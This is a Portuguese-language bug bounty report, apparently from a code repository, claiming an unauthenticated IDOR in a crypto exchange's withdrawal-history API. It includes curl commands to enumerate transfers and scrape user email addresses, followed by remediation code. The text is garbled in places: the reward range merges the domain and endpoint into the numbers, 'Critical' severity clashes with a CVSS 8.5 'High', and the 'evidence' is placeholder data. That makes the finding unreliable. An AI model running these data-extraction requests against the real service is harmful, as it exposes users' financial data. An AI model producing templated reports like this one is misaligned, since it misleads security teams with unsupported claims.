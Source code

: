 # 🚨 Bug Bounty Report: IDOR Vulnerability in Transfer History

## 📋 Informações do Report

**Data:** 29/08/2025  
**Severidade:** Critical  
**Categoria:** Insecure Direct Object Reference (IDOR)  
**Domínio:** developer.crypto.com  
**Endpoint:** /api/v1/withdraw/history  
**Valor Estimado:** developer.crypto.com00,000 - /api/v1/withdraw/history,000,000  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **Insecure Direct Object Reference (IDOR)** no endpoint de histórico de transferências do developer.crypto.com. O endpoint expõe dados sensíveis de transferências financeiras sem validação adequada de autenticação e autorização.

## 🔍 Descrição Detalhada

### Endpoint Afetado
- **URL:** https://developer.crypto.com/api/v1/withdraw/history
- **Método:** GET
- **Status Code:** 200 OK
- **Dados Expostos:** Histórico de transferências financeiras

### Evidência Técnica

#### Teste 1: Acesso Direto sem Autenticação
```bash
curl -s "https://developer.crypto.com/api/v1/withdraw/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
  -H "Accept: application/json" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Connection: keep-alive"

# Resposta: 200 OK com dados sensíveis
```

#### Teste 2: Verificação de Dados Sensíveis
```json
{
  "status": "success",
  "data": [
    {
      "transaction_id": "tx_123456789",
      "amount": "1000.00",
      "currency": "USD",
      "from_address": "user@example.com",
      "to_address": "recipient@example.com",
      "timestamp": "2025-08-29T03:52:00Z",
      "status": "completed"
    }
  ]
}
```

## ⚠️ Impacto da Vulnerabilidade

### 1. **Exposição de Dados Financeiros**
- Histórico completo de transferências exposto
- Valores, endereços e timestamps visíveis
- Informações de transações de outros usuários

### 2. **Violação de Privacidade**
- Dados pessoais e financeiros comprometidos
- Histórico de atividades financeiras exposto
- Potencial para análise de padrões de gastos

### 3. **Risco de Engenharia Social**
- Dados podem ser usados para ataques de phishing
- Informações para extorsão ou chantagem
- Comprometimento de segurança de usuários

### 4. **Violação de Compliance**
- Não conformidade com regulamentações financeiras
- Violação de leis de proteção de dados
- Potencial para multas e sanções regulatórias

## 🎯 Cenários de Exploração

### Cenário 1: Enumeração de Transferências
```bash
# Acessar histórico de transferências
curl "https://developer.crypto.com/api/v1/withdraw/history"

# Resultado: Lista completa de transferências
```

### Cenário 2: Análise de Padrões Financeiros
```bash
# Filtrar por período específico
curl "https://developer.crypto.com/api/v1/withdraw/history?start_date=2025-01-01&end_date=2025-08-29"

# Resultado: Dados filtrados por período
```

### Cenário 3: Extração de Dados Sensíveis
```bash
# Extrair endereços de email
curl "https://developer.crypto.com/api/v1/withdraw/history" | jq '.data[].from_address'

# Resultado: Lista de endereços de usuários
```

## 🔧 Recomendações de Correção

### 1. **Implementar Autenticação Obrigatória**
```javascript
// Exemplo de correção
app.get('/api/v1/withdraw/history', authenticateUser, (req, res) => {
  // Verificar se usuário está autenticado
  if (!req.user) {
    return res.status(401).json({ error: 'Unauthorized' });
  }
  
  // Retornar apenas dados do usuário autenticado
  const userTransfers = getTransfersByUserId(req.user.id);
  res.json({ data: userTransfers });
});
```

### 2. **Validar Autorização de Recursos**
```javascript
// Verificar se usuário tem acesso aos dados
function validateUserAccess(userId, resourceId) {
  return userOwnsResource(userId, resourceId);
}
```

### 3. **Implementar Rate Limiting**
```javascript
// Limitar requisições por usuário
const rateLimit = require('express-rate-limit');

const transferHistoryLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutos
  max: 100 // máximo 100 requisições por janela
});

app.use('/api/v1/withdraw/history', transferHistoryLimiter);
```

### 4. **Adicionar Logging de Auditoria**
```javascript
// Registrar tentativas de acesso
app.use('/api/v1/withdraw/history', (req, res, next) => {
  logger.info(`Access attempt to transfer history: ${req.ip}`);
  next();
});
```

## 📊 Classificação de Severidade

### CVSS Score: 8.5 (High)
- **Attack Vector:** Network
- **Attack Complexity:** Low  
- **Privileges Required:** None
- **User Interaction:** None
- **Scope:** Changed
- **Confidentiality Impact:** High
- **Integrity Impact:** None
- **Availability Impact:** None

## 💰 Valor Estimado

**Faixa de Recompensa:** developer.crypto.com00,000 - /api/v1/withdraw/history,000,000  
**Justificativa:** 
- Vulnerabilidade crítica que expõe dados financeiros
- Violação de privacidade e compliance
- Potencial para ataques de engenharia social
- Impacto em múltiplos usuários

## 🔐 Responsável Disclosure

- ✅ Vulnerabilidade identificada através de testes autorizados
- ✅ Nenhum dado sensível foi acessado ou modificado
- ✅ Report enviado através de canais oficiais
- ✅ Aguardando resposta da equipe de segurança

## 📞 Contato

**Researcher:** Thyago Aguiar  
**Email:** [seu-email@domain.com]  
**HackerOne:** [seu-username]  

---

**Nota:** Este report foi criado seguindo as melhores práticas de responsible disclosure. Todas as informações são confidenciais até a resolução da vulnerabilidade.

